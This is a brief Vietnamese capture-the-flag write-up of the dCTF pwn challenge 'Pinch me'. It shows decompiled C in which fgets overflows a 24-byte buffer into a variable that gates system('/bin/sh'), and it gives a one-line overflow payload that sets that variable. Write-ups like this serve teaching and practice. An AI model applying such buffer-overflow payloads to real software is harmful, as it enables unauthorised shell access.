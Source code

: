 ![pinch_me](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pinch%20me/imgs/pinch_me.png?raw=true)

![checksec](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pinch%20me/imgs/checksec.png?raw=true)

Hàm **main** sẽ gọi đến hàm **vuln**. 

Pseudocode of **vuln** func:

```c
int vuln()
{
  char s[24];
  int v2;
  int v3;

  v3 = 0x1234567;
  v2 = 0x89ABCDEF;
  puts("Is this a real life, or is it just a fanta sea?");
  puts("Am I dreaming?");
  fgets(s, 100, stdin);
  if ( v2 == 0x1337C0DE )
    return system("/bin/sh"); 		// your target
  if ( v3 == 0x1234567 )
    return puts("Pinch me!");
  return puts("Pinch me harder!");

```

Ta cần overwrite biến v2 = 0x1337C0DE là done

![stack](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pinch%20me/imgs/stack.png?raw=true)

payload = 'A' * 24 + '\xde\xc0\x37\x13'

![flag](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pinch%20me/imgs/flag.png?raw=true)

